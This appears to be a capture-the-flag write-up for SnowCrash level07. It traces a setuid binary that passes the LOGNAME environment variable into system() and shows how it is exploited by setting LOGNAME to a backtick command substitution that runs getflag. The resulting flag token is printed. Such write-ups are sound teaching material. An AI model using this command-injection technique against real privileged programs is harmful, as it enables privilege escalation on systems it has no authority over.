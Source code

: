 # Level 07

- Once logged in, you will see `level07` binary file
```
???$ ssh level07@localhost -p 4242
	   _____                      _____               _
	  / ____|                    / ____|             | |
	 | (___  _ __   _____      _| |     _ __ __ _ ___| |__
	  \___ \| '_ \ / _ \ \ /\ / / |    | '__/ _` / __| '_ \
	  ____) | | | | (_) \ V  V /| |____| | | (_| \__ \ | | |
	 |_____/|_| |_|\___/ \_/\_/  \_____|_|  \__,_|___/_| |_|

  Good luck & Have fun

          localhost 10.110.0.2
level07@localhost's password:
level07SnowCrash:~$
level07@SnowCrash:~$ ls
level07
level07@SnowCrash:~$
```

To check more detail, let's use `ltrace`

```
level07@SnowCrash:~$ ltrace ./level07
__libc_start_main(0x8048514, 1, 0xbffff7a4, 0x80485b0, 0x8048620 <unfinished ...>
getegid()                                                                     = 2007
geteuid()                                                                     = 2007
setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)                           = 0
setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)                           = 0
getenv("LOGNAME")                                                             = "level07"
asprintf(0xbffff6f4, 0x8048688, 0xbfffff26, 0xb7e5ee55, 0xb7fed280)           = 18
system("/bin/echo level07 "level07
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                        = 0
+++ exited (status 0) +++
level07@SnowCrash:~$
```
We can see the file takes an env varible of logname, and executes `/bin/echo level07`

**and where `getenv("LOGNAME")` is called, the value from execution is `level07`

Let's check the permissions of the file.
```
level07@SnowCrash:~$ ls -ls
total 12
12 -rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07
level07@SnowCrash:~$
```

Change environment variable **LOGNAME with command substitution by escaping backticks** if using with double quotes.
```
level07@SnowCrash:~$ export LOGNAME="\`getflag\`"
level07@SnowCrash:~$ ./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
level07@SnowCrash:~$
```


